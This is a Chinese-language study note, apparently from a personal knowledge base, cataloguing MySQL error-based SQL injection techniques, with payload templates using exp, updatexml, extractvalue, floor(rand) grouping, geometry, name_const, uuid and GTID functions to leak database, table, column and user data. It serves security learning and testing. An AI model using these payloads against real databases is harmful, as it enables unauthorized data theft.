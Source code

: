 ## 常见的利用思路：
1. 我们利用我们的 EXP 函数（适用于 5.5.5-5.5.49）:
```sql
exp(~(select * from (select user())a))
```

这一类就原理是：我们取反后得到一个很大的数，然后我们在计算 e 的很大的数的时候，就会产生错误。


2. 利用我们的 XML 和 XPATH

我们的 XPATH 是一门在 XML 文档中查找信息的语言，而我们在我们的 SQL 种存在相应的操作，例如：updatexml (), 就能够改变我们的文档中符合条件的节点的值：
```sql
updatexml(XML_document,XPATH_string,new_value)
```

其中我们的第一个元素是我们的 XML 文档对象的目标，
第二个参数是我们的 XPATH 格式的字符串
第三个参数是替换查找到的符合数据的条件的数据

而我们想要使用这一类操作，我们要求：**第二个参数必须是 XPATH 格数**。而我们在报错信息的时候，就会把我们的第二个参数的值给回显到我们的原函数当中。
![[Pasted image 20240309234802.png]]
于是，我们就可以把我们的第二个参数设计为我们的**select 语句**与我们的其它字符串相拼接波浪线。[[【字典】SQL中的查询语句]]
例如：
```sql
select UpdateXML(1,(concat(0x7e,(select语句),0x7e)),1)%23;
```

![[Pasted image 20240309235157.png]]


3. 利用我们的 extract_xml,
我们的 extract_xml 与我们的 updateXML 的唯一的区别是，我们是否存在我们的第三个参数，我们只用把我们的第三个删除了即可。

```sql
select ExtractValue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e));
```

![[Pasted image 20240310001807.png]]
4. 虚拟表报错：
原理： https://blog.csdn.net/miraclehw/article/details/129250360 (8.0 版本已失效)


爆库：
```sql
select 1 from (select count(*),(concat((select schema_name from information_schema.schemata limit 0,1),'|',floor(rand(0)*2)))x from information_schema.tables group by x)a;
```

爆表：
```sql
select 1 from (select count(*),(concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),'|',floor(rand(0)*2)))x from information_schema.tables group by x)a;
```

爆列：
```sql
select 1 from (select count(*),(concat((select column_name from information_schema.columns where table_schema=database() and table_name="对应表" limit 0,1),'|',floor(rand(0)*2)))x from information_schema.tables group by x)a;
```

爆数据：
```sql
select 1 from (select count(*),(concat((select concat(name,'|',列名,'|',列名)from users limit 0,1),'|',floor(rand(0)*2)))x from information_schema.TABLES group by x)a;
```

5. 几何函数报错：
原理： https://blog.csdn.net/weixin_46706771/article/details/112770319
模板：
```sql
and geometrycollection((select * from(select * from (操作代码)a)b))

and polygon((select * from(select * from (操作代码)a)b))

and multipoint((select * from(select * from (操作代码)a)b))

and Linestring((select * from(select * from (操作代码)a)b))

and multipolygon((select * from(select * from (操作代码)a)b))
```

6. 不存在函数（仅用于爆破数据库）：
```sql
select a();
```

![[Pasted image 20240310002650.png]]

7. name_const ()（仅用于获取数据库版本信息）：
```sql
select * from(select NAME_CONST(version(),0x1),name_const(version(),0x1))a;
```

![[Pasted image 20240310002825.png]]

8. uuid 相关函数（适用于 8.0.x 以上的版本）:
```sql
select uuid_to_bin((select语句))
select bin_to_uuid((select语句))
```

![[Pasted image 20240310003001.png]]

9. GTID 相关函数
```sql
select GTID_SUBSET((select语句),1);
```

![[Pasted image 20240310003237.png]]

